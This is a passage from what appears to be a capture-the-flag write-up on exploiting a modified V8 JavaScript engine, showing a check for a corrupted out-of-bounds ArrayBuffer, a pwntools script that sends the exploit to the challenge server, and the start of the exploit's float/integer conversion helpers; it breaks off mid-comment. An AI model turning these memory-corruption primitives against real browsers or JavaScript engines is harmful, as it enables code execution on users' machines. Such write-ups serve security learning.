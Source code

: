 ```js

console.log("[+] oob_buffer.length: " + oob_buffer.length);
if (oob_buffer.length != (1024 * 1024)) {
	throw "[-] failed to corrupt ArrayBuffer lenght";
}
```

And let's create a tiny python script that can send our JavaScript to the
server.

```python
from pwn import *
import sys

r = remote("js.tghack.no", 9001)

r.recvline()

js_code = open(sys.argv[1], "r").read()
r.sendline(js_code + "\n" + "EOF")

r.interactive()
```


```
$ python2 solve.py poc.js
[+] Opening connection to js.tghack.no on port 9001: Done
[*] Switching to interactive mode
const NUM_LOOPS_FOR_OPTIM = 100000; // Change this if it is not optimizing

// conversion between floats, integers, and SMIs
// stolen from here: https://www.jaybosamiya.com/blog/2019/01/02/krautflare/
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
    return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
    int_view[0] = this;
    return float_view[0];
}
BigInt.prototype.smi2f = function() {
    int_view[0] = this << 32n;
    return float_view[0];
}
Number.prototype.f2i = function() {
    float_view[0] = this;
    return int_view[0];
}
Number.prototype.f2smi = function() {
    float_view[0] = this;
    return int_view[0] >> 32n;
}
Number.prototype.i2f = function() {
    return BigInt(this).i2f();
}
Number.prototype.smi2f = function() {
    return BigInt(this).smi2f();
}

// function that accesses an array based on parameter
// we will first make v8 optimize the function, then access it with
// an invalid index. Since the deoptimization code has been removed, this
```